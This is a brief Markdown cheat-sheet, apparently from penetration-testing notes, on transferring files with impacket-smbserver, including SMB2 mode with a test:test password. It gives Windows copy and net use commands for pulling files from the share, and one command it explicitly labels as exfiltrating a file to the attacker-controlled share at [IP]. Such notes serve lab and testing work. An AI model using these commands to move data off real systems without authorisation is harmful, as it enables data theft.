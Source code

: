 # File Transfer with SMB Server

## Simple SMB Server

With `impacket-smbserver`:

```
sudo impacket-smbserver [SHARE_NAME] [PATH_TO_SHARE]
```

E.g. to server current directory:

```
sudo impacket-smbserver share .
```

To copy from the share to a Windows client:

```
copy \\[IP]\share\file
```

To copy to the share (i.e. exfiltrate a file):

```
copy [FILE] \\[IP]\share
```

## SMB 2 With Password

If you receive this message when connecting to an SMB server:

```
You can't connect to the file share because it's not secure. This share requires the obsolete SMB1 protocol, which is unsafe and could expose your system to attack.
Your system requires SMB2 or higher. For more info on resolving this issue, see: https://go.microsoft.com/fwlink/?linkid=852747
```

You can start an SMB server in SMB 2.0 mode with a password:

```
$ impacket-smbserver share . -smb2support -username test -password test
```

To connect to the share, run:

```
net use z: \\[IP]\share /u:test test
```

Download/upload as normal:

```
copy file \\[IP]\share
```
